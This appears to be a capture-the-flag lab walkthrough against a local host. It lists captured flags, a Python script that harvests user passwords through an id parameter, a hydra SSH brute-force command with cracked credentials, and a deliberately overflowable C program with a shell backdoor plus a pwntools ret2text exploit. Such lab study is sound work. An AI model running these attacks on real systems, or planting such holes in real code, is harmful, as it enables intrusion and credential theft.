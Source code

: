 
root 2024@.Skills

网卡配置[Ubuntu设置静态IP地址的几种方法\_ubuntu配置静态ip地址-CSDN博客](https://blog.csdn.net/fun_tion/article/details/126750615)

flag1{577baa20-f0a4-487e-a172-e6bc91e4b392}  /index.html

flag2{44a80690-be6f-435e-801e-b9e5ffaf231f}   /404.html

flag3{7972fddb-1eb4-41a7-9d8c-ca757e32dbcc}  /网站用户密码

flag4{892fa036-867c-409a-af48-6601229ebc0c}  /home/mike

flag5{7a1cc285-65ff-4b51-824d-a831ba520f7c} /flag

flag6{f8fb0360-ff9f-48ba-8d05-76445968bf59}

flag7{26c81534-cf66-417c-97f0-b026a4e8c457}

# 写爬虫爬取所有用户密码
```python
import os 
import re
from datetime import datetime
import requests
import urllib3
from colorama import init
init(autoreset = True)

def write1(user_match):
	curr_dir = os.getcwd()
	vuln_file = '/user_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{user_match}"+"\n")
	f.close()
	
def write2(pass_match):
	curr_dir = os.getcwd()
	vuln_file = '/pass_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{pass_match}"+"\n")
	f.close()	

def poc_url(id):
	urllib3.disable_warnings()
	url1 = f"http://192.168.44.133/customer/user.php?id={id}"
	proxy = {
		'http':'http://127.0.0.1:8080',
		'https':'http://127.0.0.1:8080'
	}
	headers = {
		"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
		"Cookie":"PHPSESSID=dv5jvd9q7d5e6tk0itdfj5f96d"
	}
	res = requests.get(url1,headers=headers,proxies=None,verify=False,timeout=5)
	if res.status_code == 200:
		user_match = re.search(r'<input type="text" id="name" name="name" value="([^"]+)" required>',res.text).group(1).lower().split()[0]
		pass_match = re.search(r'<input type="password" id="oldpassword" name="oldpassword" value="([^"]+)" required>',res.text).group(1)
		
	write1(user_match)
	write2(pass_match)

if __name__ == '__main__':
	for i in range(1,30):
		poc_url(i)




# python写程序遇到了这个问题,vim打开时最后一个字符都是^M，导致输出的文本不可读出内容，只能用文本编辑器打开。file多了个with CR line terminators，转换成unix也不能解决，最后把换行符号换成"\n"才解决！

```

# 爆破SSH
```C
hydra -L user_20240416.txt -P pass_20240416.txt -t 16 ssh://192.168.44.133 

[22][ssh] host: 10.0.2.15   login: mike   password: 6G3UCx6aH6UYvJ6m

```

# 提权题目：
```c
#include <stdio.h>
void init(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
void vuln(){
    char buf[8];
    puts(">>");
    read(0, buf, 0x100);
}
void backdoor(){
    system("/bin/sh");
}
int main(){
    init();
    vuln();
    return 0;
}

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie -m32
```


```python
from pwn import *
#context(os='linux',arch='i386',log_level='debug')
p=process('./ret2text1_32')
elf = ELF('./ret2text1_32')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bin_sh=0x8048643
bin_sh_chuancan=0x8048585
offset=20
payload=b"a"*offset + p32(bin_sh_chuancan)
p.sendline(payload)
p.interactive()

```
